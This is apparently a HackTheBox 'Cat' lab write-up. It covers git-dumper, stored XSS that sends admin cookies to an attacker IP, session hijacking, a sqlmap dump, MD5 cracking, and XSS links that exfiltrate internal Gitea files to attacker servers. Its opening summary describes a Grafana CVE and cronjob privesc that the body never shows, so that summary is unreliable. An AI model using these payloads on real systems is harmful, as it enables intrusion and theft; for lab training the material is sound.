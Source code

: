 #  HackTheBox: Cat - Writeup
This medium-difficulty box involves discovering a vulnerable Grafana v11.0.0 subdomain and exploiting CVE-2024-9264 for initial access. After pivoting to the user enzo, an internal cronjob web app running as root is accessed via SSH tunneling. Abusing this app allows privilege escalation to root. The box combines web enumeration, real-world CVE usage, and creative privesc via scheduled tasks.

##  Enumeration

### Nmap Scan

Using nmap, we are able to identify any open ports. The following ports are open;
•	SSH (22)
•	Apache Web Server (80)
```bash
nmap –sCV 10.10.11.53
 ```
![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Cat/Screenshots/image001.png)

From the scripts scan, we can see a .git repository on the web server. Further enumeration using gobuster has been conducted but had no clear results. So now, we must add the machine’s IP to the hosts file in your machine.

 
## Initial foothold

### Git Enumeration
Using git-dumper, we able to extract the files in the .git directory of the web server.

```bash
git-dumper http://cat.htb/.bit gitFolder
```

![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Cat/Screenshots/image003.png)
 
We then explore some of the interesting files gained.

![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Cat/Screenshots/image005.png)
 
On the join.php file, there is no input sanitization for the username, possible XSS. Hmm interesting..

![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Cat/Screenshots/image007.png)
 
On the contest.php, the data of the users is sent to the SQL database. Including the username, which could be malicious.

![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Cat/Screenshots/image008.png)
 
On the admin.php, the admin (axel) either accepts or rejects the cat.

![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Cat/Screenshots/image0010.png)
 
The accept_cat.php is susceptible to SQLi, where the sql_insert statement is being used.

![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Cat/Screenshots/image013.png)
 
On the config.php some information about the SQL database and configuration is given.

![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Cat/Screenshots/image014.png)
 
Using all this information from the file, we can construct an attack procedure.

### Persitent XSS 

First, we can create a user with the XSS payload in the username field, to gain admin cookies.

```bash
<script>document.location='http://10.10.14.120:1111/?c='+document.cookie;</script>
```

![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Cat/Screenshots/image015.png)

Then register a normal cat in the contest.

![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Cat/Screenshots/image017.png)

From here, when admin accepts the cat, we gain his cookies.

![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Cat/Screenshots/image019.png)

Which we use, to hijack his session.

![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Cat/Screenshots/image021.png)

We are able to gain access to the admin.php, demonstrating successful XSS attack, now to get information from the SQL db, since we have the admin cookie.
 
## Exploitation

Since accept_cat.php is vulnerable to SQLi, we use the data provided from it, catID and catName to form a sqlmap comand.

```bash
sqlmap -u "http://cat.htb/accept_cat.php" --data="catId=1&catName=a" --cookie="PHPSESSID=ikn31got0uppvf5h3n5snv6cqh" -p "catName" --dbms=SQLite --dump --level=5 --risk=3 --flush-session --threads=5 --hex
```

![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Cat/Screenshots/image025.png)
 
During the process, we are able to gain some usernames and hashed passwords, these are noted down. Some of the users include; rosa, axel(admin), robert, and more..

![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Cat/Screenshots/image028.png)
 
The hashes identified are md5 hashes.

![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Cat/Screenshots/image030.png)
 
Using johntheripper, we are able to obtain the hashed credentials, note only user rosa has a correct hash, rest of the users do not.

``` bash
john hash --format=Raw-MD5 --wordlist=/usr/share/wordlists/dirb/rockyou.txt
```

![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Cat/Screenshots/image032.png)
 
Using the credentials, we are able to SSH into rosa’s user.

![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Cat/Screenshots/image033.png)

## Privelege Escalation
 
Using linPEAS, we are aiming to privilege escalate or find some information.

![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Cat/Screenshots/image035.png)
 
In the apache access logs, which are usually hidden contain the password of the user axel.

![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Cat/Screenshots/image038.png)

Using that, we are able to SSH into the axel user, and we see a new mail sent to axel.

![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Cat/Screenshots/image039.png)
 
And obtain the user flag.

![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Cat/Screenshots/image042.png)
 
Reading out the mail from rosa, we see a web page being hosted on the port 3000, which contains information about employees.

![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Cat/Screenshots/image043.png)

As seen, the web server is being hosted on port 3000, in order to access it need to do SSH tunnelling back to my machine.

![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Cat/Screenshots/image045.png)
 
Using SSH tunnelling on port 3000.

``` bash
ssh -L 3000:localhost:3000 axel@10.10.11.53
```

![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Cat/Screenshots/image047.png)
 
We are able to login into the gitea, using axel’s credentials.

![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Cat/Screenshots/image049.png)

We see this web server is powered by gitea version 1.22.0. Which is, vulnerable to Persistent XSS.

![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Cat/Screenshots/image051.png)

## Post-Exploitation
 
Using that information, I formed a XSS that accesses the employee-management readme and sends to my python server, accessing that information.

``` bash
<a href="javascript:
fetch('http://localhost:3000/administrator/Employee-management/raw/branch/main/README.md')
  .then(r => r.text())
  .then(d => fetch('http://10.10.14.182:8000/?d=' + btoa(d)))
">XSS test</a>
```

![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Cat/Screenshots/image054.png)
 
The link of the git is then sent to jobert, as instructed in the mail.

``` bash
echo "http://localhost:3000/axel/test/" | sendmail jobert@localhost
```

![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Cat/Screenshots/image056.png)
 
The obtained data is then decoded from base64, getting the following information;

```
Employee Management
Site under construction. Authorized user: admin. No visibility or updates visible to employees.
In order to get the contents of the git, the following script is formed.
```
``` bash
<a href="javascript:fetch('http://localhost:3000/administrator/Employee-management/')
  .then(r => r.text())
  .then(d => fetch('http://10.10.15.95:8000', {
    method: 'POST',
    headers: { 'Content-Type': 'application/x-www-form-urlencoded' },
    body: 'data=' + encodeURIComponent(d)
  }))">
  Click me
</a>
```

![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Cat/Screenshots/image057.png)
 
After decoding the received data, the following paths are found; 

![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Cat/Screenshots/image059.png)
 
There are the interesting paths, containing files;
/administrator/Employee-management/src/branch/main/chart.min.js
/administrator/Employee-management/src/branch/main/dashboard.php
/administrator/Employee-management/src/branch/main/index.php
/administrator/Employee-management/src/branch/main/logout.php
/administrator/Employee-management/src/branch/main/README.md
/administrator/Employee-management/src/branch/main/style.css

Upon finding those paths, I used the XSS script to get back data from those paths, and from index.php I obtained the admin credentials, getting the root flag.
 
![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Cat/Screenshots/image062.jpg)

![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Cat/Screenshots/image064.jpg)

